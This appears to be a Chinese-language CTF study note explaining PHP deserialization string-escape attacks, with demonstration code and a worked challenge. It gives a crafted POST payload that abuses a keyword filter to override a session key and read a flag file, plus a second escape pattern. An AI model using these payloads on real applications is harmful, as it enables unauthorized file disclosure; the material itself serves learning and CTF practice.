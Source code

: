 常存在有字符替换的场景：手动闭合后字数不对，但是替换后字数就对了

## **反序列化逃逸例子**

改变序列化长度，长度必须一样，拼接遇到;}则停，长度不可以更短。

PHP反序列化字符逃逸
```
<?php
$a = array('123', 'abc', 'defg');
var_dump(serialize($a));
?>
```

结果
```
string(49) "a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}" 
```

反序列化
```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(4) "defg" } 
```

我们可以看到在后端中，反序列化是一";}结束的，如果我们把";}带入需要反序列化的字符串中（除了结尾处），因为属性a为4个。是不是就能让反序列化提前结束后面的内容就丢弃了呢？\
  我们把第二个值abc换成abc";i:2;s:5:"qwert";}

```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:5:"qwert";}";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(5) "qwert" } 
```

成功的反序列化出我们自己定义的内容，丢弃了原先的内容（i:2;s:4:"defg"）




^
## **反序列化字符串逃逸。**
```
extract($_POST);
//接收POST参数值，覆盖变为变量和变量值。

//此时会默认$_SESSION数组中有个img的值为 base64_encode('guest_img.png')
//else中可以看出即使主动传参img_path也无法使用
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

//序列化$_SESSION数组
$serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);//替换为空
}

//反序列化后提取数组中img的值 来获取文件内容。
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
//最终为了读d0g3_f1ag.php文件内容。
}
```
分析
```
通过extract($_POST);
接收POST参数值，变为$_SESSION中变量和值，
再利用序列化后会过滤字符为空格，构造字符串
实现将后面那个默认有个img的数组键值抛弃
只保留一个自己传的img键值，其中值为ZDBnM19mMWFnLnBocA==（d0g3_f1ag.php）
最后反序列化是实现文件读取。

```
测试
```
<?php
$_SESSION['phpflag']=';s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('guest_img.png');


//序列化$_SESSION数组
echo $serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

//反序列化
echo '<br>';
print_r(unserialize($serialize_info));

Array
(
    [";s:50:] => img
    [img] => ZDBnM19mMWFnLnBocA==
)
```
所以POST传参
```
_SESSION[phpflag]=;s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

列题：
<https://www.cnblogs.com/g0udan/p/12216207.html>

^
## **序列化后某字符被替换成短字符，再反序列化导致可以被逃逸**
```
$profile['nickname'] = 'where";s:5:"photo";s:5:"/flag";}';
假设序列化后
string(32) "where";s:5:"photo";s:5:"/flag";}"
匹配恶意where字符，替换为hack，少一个字符。
则只要多加where，全部替换，s:总数不变，就可以实现包含字符尾部的s:5:"photo";s:5:"/flag";}。
```
注意：数组中有嵌套数组，序列化后里面的数组也有{}符号
题目:<https://www.cnblogs.com/xhds/p/12393686.html>